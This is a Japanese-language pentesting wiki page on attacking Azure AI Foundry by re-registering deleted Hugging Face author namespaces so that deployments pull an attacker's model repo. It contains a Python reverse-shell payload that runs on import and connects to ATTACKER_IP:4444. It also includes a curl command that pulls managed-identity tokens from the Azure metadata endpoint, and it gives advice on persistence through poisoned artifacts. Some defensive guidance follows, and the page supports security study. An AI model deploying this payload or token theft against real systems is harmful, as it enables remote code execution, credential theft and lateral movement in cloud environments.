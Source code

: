 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## シナリオ

- Azure AI Foundry Model Catalog にはワンクリックでデプロイ可能な Hugging Face (HF) モデルが多数含まれています。
- HF のモデル識別子は Author/ModelName です。HF の author/org が削除されると、誰でもその author を再登録して同じ ModelName のモデルを legacy path に公開できます。
- 名前だけで取得する pipelines や catalogs（コミットのピン留め/整合性がない場合）は攻撃者管理のリポジトリに解決されます。Azure がモデルをデプロイすると、loader code がエンドポイント環境で実行され、そのエンドポイントの権限で RCE を得る可能性があります。

一般的な HF の乗っ取りケース:
- 所有権の削除: 旧パスは乗っ取られるまで 404 になります。
- 所有権の移転: 旧著者が存在する間は旧パスが新しい author へ 307 リダイレクトします。もし旧著者が後に削除され再登録されると、リダイレクトは壊れ、攻撃者のリポジトリが旧パスで配信されます。

## 再利用可能な名前空間の特定 (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Azure AI Foundry に対するエンドツーエンドの攻撃フロー

1) Model Catalogで、HF上で元のAuthorが削除または移管（旧Authorが削除）されたHFのモデルを見つける。  
2) HFで放棄されたAuthorを再登録し、ModelNameを再作成する。  
3) import時に実行される、またはtrust_remote_code=Trueを必要とするloaderコードを含む悪意あるrepoを公開する。  
4) Azure AI FoundryからレガシーのAuthor/ModelNameをデプロイする。プラットフォームが攻撃者のrepoをプルし、loaderがAzureのendpointのcontainer/VM内で実行され、endpoint権限でRCEを引き起こす。

Example payload fragment executed on import (for demonstration only):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
注意事項
- AI Foundry を統合する HF ベースのデプロイは通常、モデルの config で参照される repo モジュール（例: auto_map）をクローンしてインポートします。これによりコード実行が発生する可能性があります。いくつかのパスでは trust_remote_code=True が必要です。
- アクセス権は通常、エンドポイントの managed identity/service principal の権限に合わせられます。これをデータ取得や Azure 内での横移動を行うための初期アクセスの足がかりとして扱ってください。

## ポストエクスプロイトのヒント (Azure Endpoint)

- トークン取得のために環境変数とMSIエンドポイントを列挙する:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- 取得したトークンでマウントされたストレージ、モデルアーティファクト、および到達可能な Azure サービスを確認する。
- プラットフォームがHFから再プルする場合は、毒入りのモデルアーティファクトを残して永続化を図ることを検討する。

## Azure AI Foundry ユーザー向けの防御ガイダンス

- HF からロードする際はコミットでモデルを固定する:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- 検証済みの HF モデルを信頼できる内部レジストリにミラーし、そこからデプロイする。
- コードベースや defaults/docstrings/notebooks を継続的にスキャンし、削除／移管されたハードコーディング済みの Author/ModelName を検出して更新またはピン留めする。
- デプロイ前に作者の存在とモデルの出所を検証する。

## 認識ヒューリスティクス (HTTP)

- 削除された作者: 作者ページが 404；レガシーモデルのパスも takeover まで 404 になる。
- 移管されたモデル: 旧作者が存在する間、レガシーパスが 307 で新しい作者へリダイレクトされる；もし旧作者が後で削除され再登録されると、レガシーパスが攻撃者のコンテンツを配信する。
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## 相互参照

- より包括的な方法論およびサプライチェーンに関する注記を参照してください：

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## 参考文献

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
